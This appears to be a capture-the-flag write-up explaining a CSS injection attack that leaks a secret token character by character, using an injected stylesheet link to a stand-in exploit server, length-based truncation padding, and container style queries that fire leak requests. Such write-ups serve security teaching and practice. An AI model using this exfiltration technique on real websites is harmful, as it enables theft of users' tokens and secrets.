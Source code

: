 ```html
<link rel=stylesheet href=/tasks><link rel=stylesheet href=http://EXPLOIT.SERVER/css/justToken{KNOWN>}[PADDING]aaa{}*{--x:
```

First the tasks page is included as a stylesheet, here our tasks are previewed as follow by ejs:
```html
<pre><% const preview=task.tasks.join(",\n"); %><%= preview.length>500? preview.slice(0, 500) + "..." : preview %></pre>
```

there are two important details essential for the exploitation:

- each task is joined and if the content length is more than 500 characters it is truncated.
- our payload will be rendered first, because each new task is prepended using `task.tasks.unshift(content);`.

With the padding, only the first two unknwon characters of the flag will be rendered in the task page:

```js
'a'.repeat(500 - flag.length - 12 - prev.length)
```

here the magic number -12 is the size of `{}*{--x:` + `,\n` for the join + 2 which are the unknwon characters of the token that the exploit will
try to guess each time.

The second stylesheet is used to load another dynamic part of the payload, which will be used to guess new characters of the token using a 
[container style query](https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_containment/Container_size_and_style_queries#container_style_queries)
that will apply a style only if the `--x` css variable matches the `--y` variable.

The final imported css code after all the imports will look something like this:
```css
* {--y0_0:,\njustToken{00...[BOTTOM OF THE PAGE]
* {--y0_1:,\njustToken{01...[BOTTOM OF THE PAGE]
[...]
* {--y0:,\njustToken{0...[BOTTOM OF THE PAGE]
* {--y1:,\njustToken{1...[BOTTOM OF THE PAGE]

@container style(--x:var(--y0_0)){
  body{
    background: red url('/leak/justToken{00');
  }
}
@container style(--x:var(--y0_1)){
  body{
    background: red url('/leak/justToken{01');
  }
}
[...]
@container style(--x:var(--y0)){
  body{
    background: red url('/leak/justToken{0');
  }
}
@container style(--x:var(--y1)){
  body{
    background: red url('/leak/justToken{1');
  }
}
```
